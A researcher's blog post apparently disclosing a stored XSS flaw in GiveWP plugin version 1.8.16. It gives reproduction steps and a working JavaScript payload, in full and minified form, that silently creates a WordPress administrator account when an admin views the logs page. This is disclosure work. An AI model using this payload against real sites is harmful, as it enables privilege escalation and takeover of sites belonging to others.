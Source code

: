 ```yaml
---
layout: post
title:  "Vulnerability Report - WordPress plugin - givewp"
subtitle: "XSS to get admin!"
categories: security
tags: [ vulnerability  ]
---
```

This is a post I back dated to when I privately reported a vulnerability to givewp for their WordPress plugin. I privately shared via their support contact form. The version this XSS was found is long in the past!

> I discovered an XSS vulnerability, details included in Vulnerability input.
> If you have any questions or need more information please let me know! I wasn't sure how to do a 'private pull request' otherwise I would have done that.


## Problem
There is an Authenticated, Stored XSS that allows lower privileges users to craft an XSS payload in the form title that would enable them to create an administrator user they can login with. For the proof of concept, I created a user with the *Give Worker* role and created an admin user via the XSS.

## Problem source
I can't find the original version of the source code, but here is the reference.
https://github.com/WordImpress/Give/blob/release/1.8.17/includes/admin/tools/logs/class-sales-logs-list-table.php#L75Raw

## Steps to reproduce
- 1 - Add user with Give Worker role
- 2 - Login to that user account or switch to that user using User Switching plugin
- 3 - Add donation form at Give > Add Form (/wp-admin/post-new.php?post_type=give_forms)
- 4 - For form title use the minifiied title with script tags found here

```javascript
u5='/wp-admin/user-new.php'
u8= "same-origin"
fetch(u5,{credentials: u8}).then(function(r) {
  n={}
  fd=new FormData();
  // Create an admin user via XSS
  r.text().then(function(t){
    m = /_wpnonce_create-user" value="([^"]*?)"/.exec(t);
    n['_wpnonce_create-user'] = m[1]
    n.action = 'createuser';
    n.pass1='pass9999999999';
    n.pass2='pass9999999999';
    n.user_login='test4565465';
    n.email='waiting@email.com';
    n.role='administrator';
    n._wp_http_referer=u5;

    for (var k in n) {
      fd.append(k, n[k]);
    }

    fetch(u5, {
      method: 'post',
      body: fd,
      credentials:u8
    });
  });
});
```
**minified version**  
```javascript
// <script>u5="/wp-admin/user-new.php",u8="same-origin",fetch(u5,{credentials:u8}).then(function(e){n={},fd=new FormData,e.text().then(function(e){m=/_wpnonce_create-user" value="([^"]*?)"/.exec(e),n["_wpnonce_create-user"]=m[1],n.action="createuser",n.pass1="pass9999999999",n.pass2="pass9999999999",n.user_login="test4565465",n.email="waiting@email.com",n.role="administrator",n._wp_http_referer=u5;for(var t in n)fd.append(t,n[t]);fetch(u5,{method:"post",body:fd,credentials:u8})})});</script>
```

https://gist.github.com/rezen/df6d132e2336424e9b3668ed7c5947a5
- 5 - Switch to administrator user
- 6 - With an administrator account, go to Give > Tools > Logs (tab) (/wp-admin/edit.php?post_type=give_forms&page=give-tools&tab=logs)
- 7 - Go observe new user added Users > All Users (/wp-admin/users.php)

## Tested on
- WP Version: 4.8
- PHP Version: 5.6.30
- Plugin Version: 1.8.16
- Browser: Chrome 58